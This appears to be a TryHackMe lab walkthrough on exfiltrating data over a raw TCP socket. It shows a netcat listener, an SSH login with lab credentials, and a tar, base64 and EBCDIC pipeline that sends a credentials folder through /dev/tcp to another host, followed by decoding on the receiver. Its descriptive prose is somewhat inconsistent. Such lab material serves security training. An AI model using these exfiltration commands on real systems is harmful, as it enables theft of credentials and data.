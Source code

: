 # Exfiltration using TCP socket

Exfiltration over TCP is unlikely to work, but try raw TCP sockets.

Using the TCP socket is one of the data exfiltration techniques that can be used in a non-secured environment 
where there are no network-based security products (to speak of, as far as we know). This kind of exfiltration 
is easy to detect because it relies on non-standard protocols. One of the benefits of this technique is that it 
encodes the data during transmission and makes it harder to examine.

`ssh` into the jump host:

    ssh thm@<IP jumphost>

Use the `nc` command to receive data on port 8080, store the data in the `/tmp/` directory and name it 
`task4-creds.data`:

    thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data

Move on to the victim machine that contains the data (thm:tryhackme):

    thm@jump-box$ ssh thm@victim1.thm.com

Check the `creds.txt` file on the victim machine:

    thm@victim1:~$ cat task4/creds.txt

Exfiltrate data over TCP Socket:

    thm@victim1:$ tar zcf - task4/ | base64 | dd conv=ebcdic > /dev/tcp/192.168.0.133/8080

* `tar zcf` - create a new archive file, using gzip to compress the selected folder.
* `base64` - encode the new compressed archive.
* `dd conv=ebcdic` - create and copy a backup file from it, using EBCDIC encoding.
* `> /dev/tcp/192.168.0.133/8080` - redirect the output to transfer it using the TCP socket on the specified IP and 
port.

Check the received data on the jumphost: 

    thm@jump-box$ nc -lvp 8080 > /tmp/task4-creds.data
    Listening on [0.0.0.0] (family 0, port 8080)
    Connection from 192.168.0.101 received!
    
    thm@jump-box$ ls -l /tmp/
    -rw-r--r-- 1 root root       240 Apr  8 11:37 task4-creds.data

Convert the received data back to its original state:

    thm@jump-box$ cd /tmp/
    thm@jump-box:/tmp/$ dd conv=ascii if=task4-creds.data |base64 -d > task4-creds.tar

Unarchive `task4-creds.tar`:

    thm@jump-box$ tar xvf task4-creds.tar

Confirm the received data:
			
    thm@jump-box$ cat task4/creds.txt